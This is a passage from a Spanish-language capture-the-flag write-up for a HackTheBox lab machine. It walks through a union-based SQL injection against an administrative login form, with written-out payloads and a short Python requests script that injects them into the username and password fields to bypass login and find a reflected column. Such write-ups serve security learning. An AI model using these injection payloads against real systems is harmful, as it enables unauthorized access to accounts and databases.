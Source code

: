 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_testorderPY.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PERFECTOOOOOOOOOO, tenemos el número de columnas (`6`) y confirmamos que estamos ante una inyección SQL tipo `union-based`, empecemos a usarla...

...

### Extraemos variables usadas por el servidor SQL [💉](#web-sqli-var) {#web-sqli-var}

Usaré este apartado para mostrarles como se vería reflejado el resultado de nuestra consulta, pero las demás extracciones simplemente mostraré el resultado, esto para no hacer taaaan largo el writeup (:

Sabemos que hay 6 columnas, nuestro nuevo payload va a quedar así para toooodas las extracciones, nos queda saber contra qué servidor SQL estamos y que columnas son válidas para escribir texto.

```sql
admin' UNION ALL SELECT 1,2,3,4,5,6;#
```

Ahí le estaríamos diciendo que nos muestre tooooooooooodas las columnas donde sea que estén de la respuesta, entonces, ejecutamos:

```py
#!/usr/bin/python3

import requests

URL = "http://10.10.11.101/administrative"

payload = f"admin' UNION ALL SELECT 1,2,3,4,5,6;#"
r = requests.post(URL, data={"uname":payload,"password":payload})

if "Redirecting you to the dashboard" in r.text:
    print(r.text)
```

Si tomamos la respuesta y nos ponemos frescos con la vista, vamos a ver algo llamativo por ahí:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_testunionPY.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Hay un `2` al lado de **admin** y claramente antes no estaba:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361page80_administrative_res_redirect_SQLItoBypassLogin.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Por lo que nos hace pensar que el `2` de nuestro payload puede ser ese `2`, como prueba definitiva agreguemos un texto ahí random:

```py
payload = f"admin' UNION ALL SELECT 1,'holiwis',3,4,5,6;#"
```

Ejecutamos yyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_testunionPY_holiwis.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>
